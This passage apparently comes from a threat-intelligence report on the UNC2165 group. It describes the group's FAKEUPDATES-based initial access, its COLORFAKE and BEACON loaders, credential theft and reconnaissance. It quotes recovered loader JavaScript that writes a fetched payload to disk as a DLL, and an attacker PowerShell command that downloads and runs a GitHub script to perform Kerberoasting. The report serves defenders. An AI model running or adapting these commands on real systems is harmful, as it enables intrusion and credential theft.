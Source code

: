 manage FAKEUPDATES infections and to distribute secondary payloads, including BEACON. We believe that at least some of the described activity can be attributed to UNC2165 based on malware payloads and other technical artifacts included in the report. A command appearing in a screenshot within the ProDaft report is consistent with UNC2165 activity. This command reportedly executes a BEACON payload that communicates with the C&C domain tanzaniafisheries[.]com from a .csproj file using msbuild.exe. We attribute this BEACON C&C domain to UNC2165 and have routinely observed UNC2165 leveraging this same technique to load BEACON shellcode payloads via .csproj files. The execution of this command via the FAKEUPDATES C&C server suggests that UNC2165 has at least some level of access to the admin panel to execute commands and launch payloads post-compromise.Since June 2020 all BEACON payloads that we have observed delivered via FAKEUPDATES have been attributed to UNC2165 based on their ownership by a common bulletproof hosting client and observed post-exploitation TTPs. FAKEUDPATES has also delivered NETSUPPORT during this period, but we do not currently attribute this activity to UNC2165. NETSUPPORT is most likely used to monetize infections on machines belonging to individuals rather than organizations by stealing credentials and other sensitive personal information.The ProDaft report contains an image that shows secondary payloads are uploaded directly in the panel and referenced by a file ID number. The script that we have seen loading COLORFAKE is consistent with this activity as it includes the following reference fileid = '<number>' (e.g. var fileid = '190'). Attack LifecycleWhile UNC2165 activity dates to at least June 2020, the following TTPs are focused on intrusions where we directly observed ransomware deployed.Initial Compromise and Establish FootholdUNC2165 has primarily gained access to victim organizations via FAKEUPDATES infections that ultimately deliver loaders to deploy BEACON samples on impacted hosts. The loader portion of UNC2165 Cobalt Strike payloads have changed frequently but they have continually used BEACON in most intrusions since 2020. Beyond FAKEUPDATES, we have also observed UNC2165 leverage suspected stolen credentials to obtain initial access. During 2021, UNC2165 leveraged publicly available loaders, including DONUT, to deploy BEACON payloads; however, intrusions observed since late 2021 have used the COLORFAKE (aka Blister) dropper.In recent UNC2165 intrusions where COLORFAKE was used, we recovered JavaScript artifacts showing the initial delivery of COLORFAKE payloads via FAKEUPDATES. The payloads to be downloaded each have a "fileid" value that FAKEUPDATES will retrieve and write to disk (Figure 2).The COLORFAKE DLL is placed within %ProgramData% as a .tmp file, renamed to a DLL, and subsequently executed by RunDLL32 with its export function. Figure 2: Deployment of COLORFAKE loadervar filename = 'VIDRESZR1.dll';var fileid = '190'; var replyContent = getFileContentByFileId(fileid); var folder = wsh.ExpandEnvironmentStrings('%programdata%');var tempFileName = '';do {       tempFileName = fso.BuildPath(folder, fso.GetTempName());} while ( fso.FileExists(tempFileName) ); writeContentToFile(tempFileName, replyContent); wsh.Run('cmd /C rename "'+tempFileName+'" "'+filename+'"', 0, true);Escalate PrivilegesUNC2165 has taken multiple common approaches to privilege escalation across its intrusions, including Mimikatz and Kerberoasting attacks, targeting authentication data stored in the Windows registry, and searching for documents or files associated with password managers or that may contain plaintext credentials.UNC2165 has used a service account to extract copies of the Windows SECURITY registry hives.UNC2165 has used Mimikatz and performed Kerberoasting attacks to obtain extensive credential access in target environments. Kerberos data output files generated by UNC2165 are typically placed in the %ProgramData% root directory (Figure 3). The threat actors also test the acquired credentials across the target domain to identify where they will work.UNC2165 has searched for terms including keep, avamar, kdb, netapp, pass, and passw to identify files or systems that may contain credentials or sensitive data for exfiltration purposes. Additionally, the threat actors have directly accessed and exported passwords from enterprise password managers.UNC2165 has used tools, including KEETHIEF/KEETHEFT and SecretServerSecretStealer, to gather key material from KeePass and decrypt secrets from Thycotic Secret ServerFigure 3: UNC2165 downloads Kerberoasting utility from GitHubcmd.exe /C cmd /c powershell -nop -exec bypass -c iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1'); PowerSharpPack -Rubeus -Command "kerberoast"Internal ReconnaissanceFollowing UNC1543 FAKEUPDATES infections, we commonly see a series of built-in Microsoft Windows utilities such as whoami, nltest, cmdkey, and net used against newly accessed systems to gather data and learn more about the victim environment. The majority of these commands are issued using one larger, semicolon-delineated list of enumeration commands, followed up by additional PowerShell reconnaissance (Figure 4). We attribute this initial reconnaissance activity to UNC1543 as it occurs prior to UNC2165 BEACON deployment; however, collected information almost certainly enables decision-making for UNC2165. During intrusions, UNC2165 has used multiple common third-party tools to enable reconnaissance of victim networks and has accessed internal systems to obtain information used to guide its intrusion operations.In one intrusion UNC2165 downloaded and executed the Advanced Port Scanner utility.UNC2165 has downloaded and installed the asset management tool Lansweeper. UNC2165 has accessed a